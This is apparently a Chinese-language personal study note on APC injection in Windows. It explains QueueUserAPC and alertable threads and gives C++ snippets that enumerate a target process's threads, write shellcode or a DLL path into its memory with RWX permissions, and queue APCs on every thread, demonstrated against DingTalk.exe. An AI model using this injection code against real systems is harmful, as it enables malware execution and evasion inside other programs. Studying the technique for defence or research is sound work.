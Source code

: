 # APC Injection

## 简介

Asynchronous Procedure Calls, 异步程序调用, 

1. 攻击已存在的Process. 向某个Thread植入APC(异步调用)完成代码执行.
2. shellcode
3. 无`CreateRemoteThread`


在一个进程中，当一个执行到`SleepEx()`或者`WaitForSingleObjectEx()`时，系统就会产生一个**软中断**，当线程再次被唤醒时，此线程会**首先执行APC队列中的被注册的函数**，利用`QueueUserAPC()`这个API可以往线程的APC队列中注册函数. 一旦线程有空隙了, windows就会执行一下windows在执行完线程的主要任务何后, 顺便把apc队列执行一遍.

### 注意点

2. 当线程进入警戒状态时，会循环检查线程中的APC队列，如果APC队列中存在函数指针，那么就会调用该函数
3. 使用`QueueUserAPC`向APC队列插入地址(类似`CreateRemoteThread`, 开头设置在函数地址或者shellcode地址都行), 例如使用`Loadlibrary()`，实现加载DLL.
4. 注入成功后，警戒状态结束，程序继续运行，有可能造成程序不稳定，导致程序崩溃.
	* 这点不知道怎么解决, 对话框一点掉进程就崩溃了.
5. 如果没有删除APC队列，不能反复注入同一函数.
6. 使用APC注入，需要目标进程中**至少有一个线程处于警戒状态或者能够进入警戒状态**，否则无法实现APC注入. 
	* 所以最简单的方式就是往所有线程里都注入APC, 总有几个能执行.
	* 或者在shellcode里让线程自己执行`SleepEx`或者`NtTestAlert`, 但这个没有办法实现, 因为远程操控别的进程线程的方法就是注入shellcode, 本末倒置.

### Disadvantage
启动器不能让任意Thread执行APC, 需要先让那个Thread进入alertable state (i.e `SleepEx`), 或者目标线程处于警戒状态.

### 步骤简介

1. 找到目标进程
	* `pid`
	* `OpenProcess`
2. 写入shellcode
	* `VirtualAlloc`
	* `WriteProcessMemory`
3. 找到目标进程里的所有线程, 确定TID(为保证命中率, 可以注入所有的线程)
	* `Thread32First`
	* `Thread32Next`
4. 向每个线程插入一个APC(调用的开头指向函数的地址或者shellcode地址, 类似`CreateRemoteThread`, 开头设置在函数地址或者shellcode地址都行)
	* 使用`QueueUserAPC`
	* `QueueUserAPC((PAPCFUNC)pLoadLibrary, hThread, (ULONG_PTR)AllocAddr);`
	* `QueueUserAPC((PAPCFUNC)ShellcodeAddress, hThread, (ULONG_PTR)AllocAddr);`
5. 撞大运等线程状态转变, 例如`SleepEx`这种让线程变成警戒状态执行APC内的调用. 注意, 写在注入器里没用, 要让目标线程自己执行.
	* `SleepEx`、`SignalObjectAndWait`、`MsgWaitForMultipleObjectsEx`，`WaitForMultipleObjectsEx`或者`WaitForSingleObjectEx`
	* [https://msdn.microsoft.com/en-us/library/windows/desktop/aa363772(v=vs.85).aspx](https://msdn.microsoft.com/en-us/library/windows/desktop/aa363772(v=vs.85).aspx)

## 关键步骤代码注释

### 找到目标进程和搜索目标进程下的所有线程
这步和之前的注入方式重合, 所以就简单粘贴了一下.

```
HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS | TH32CS_SNAPTHREAD, 0);  // 它这里是把进程线程都生成快照
	HANDLE victimProcess = NULL;
	PROCESSENTRY32 processEntry = { sizeof(PROCESSENTRY32) };
	THREADENTRY32 threadEntry = { sizeof(THREADENTRY32) };
	std::vector<DWORD> threadIds;
	HANDLE threadHandle = NULL;

	if (Process32First(snapshot, &processEntry)) {	// search Process
		while (_wcsicmp(processEntry.szExeFile, L"explorer.exe") != 0) {
			Process32Next(snapshot, &processEntry);
		}
	}

	if (Thread32First(snapshot, &threadEntry)) {	//search Thread
		do {
			if (threadEntry.th32OwnerProcessID == processEntry.th32ProcessID) {
				threadIds.push_back(threadEntry.th32ThreadID);
			}
		} while (Thread32Next(snapshot, &threadEntry));
	}
```

### 写入注入内容

#### shellcode

```
LPVOID AllocMemory = VirtualAllocEx(hProcess, NULL, sizeof(shellcode), MEM_COMMIT, PAGE_EXECUTE_READWRITE);	//没注进去是这个最后一个参数设置的问题
WriteProcessMemory(hProcess, AllocMemory, shellcode, sizeof(shellcode), NULL);
```

#### dll route
`arg[2]=dll route(Ex: C://Windows//System32//amsi.dll)`

```
LPVOID AllocMemory = VirtualAllocEx(hProcess, NULL, lstrlen(arg[2]) + 1, MEM_COMMIT, PAGE_EXECUTE_READWRITE);	//没注进去是这个最后一个参数设置的问题
WriteProcessMemory(hProcess, AllocMemory, arg[2], lstrlen(arg[2]) + 1, NULL);
PTHREAD_START_ROUTINE pfnStartAddr = (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle(TEXT("Kernel32")), "LoadLibraryA");
```

### 向每个线程插入一个APC

#### shellcode

```
	std::vector<DWORD> ThreadTids = GetThreadTid(Pid);
	for (DWORD threadId : ThreadTids) // 将所有的线程都插入APC调用.
	{
		HANDLE hThread = OpenThread(THREAD_ALL_ACCESS, TRUE, threadId);
		QueueUserAPC((PAPCFUNC)AllocMemory, hThread, NULL);	// 类似 CreateRemoteThread, 入口放在存shellcode的内存地址.
	}
```

#### dll

```
		HANDLE hThread = OpenThread(THREAD_ALL_ACCESS, TRUE, threadId);
		QueueUserAPC((PAPCFUNC)pfnStartAddr, hThread, (ULONG_PTR)AllocMemory);
```

## Result
Dll_Injection: `C:\Users\Ronpa\Desktop\APC_Injection_Shellcode\Release\APC_Injection_Shellcode.exe DingTalk.exe C:\Users\Ronpa\Desktop\MsgDll.dll`
![](APC_Injection/dll_result.jpg)

Shellcode_Injection: `C:\Users\Ronpa\Desktop\APC_Injection_Shellcode\Release\APC_Injection_Shellcode.exe DingTalk.exe`
DingTalk.exe进程里大概有6-7个处于Alert状态的线程. 所以有那么多弹窗代表执行了shellcode.
![](APC_Injection/shellcode_result.jpg)

# 知识补充

## APC

由于在线程执行过程中，其他线程无法**干预当前执行线程**(占用cpu)，如果需要干预当前执行线程的操作，就需要有一种让线程自身去调用的机制，windows实现了一种称之为APC的技术，这种技术可以通过**插入队列**(执行信息)让线程在一定条件下自己去调用，这样就实现了异步操作。


线程是不能被“杀掉”、“挂起”、“恢复”的, 线程在执行的时候自己占据着CPU, 别人怎么可能控制它呢?
举个极端的例子: 如果不调用API, 屏蔽中断, 并保证代码不出现异常, **线程将永久占用CPU**, 何谈控制呢? 所以说线程如果想“死", 一定是自己执行代码把自己杀死,不存在“他杀”这种情况!
那如果想改变一个线程的行为该怎么办呢?
可以给他提供一个函数, 让它自己去调用,这个函数就是APC (Asyncroneus Procedure Call), 即异步过程调用。

软件中断机制, 应该是**允许别的线程打断占用cpu的线程**.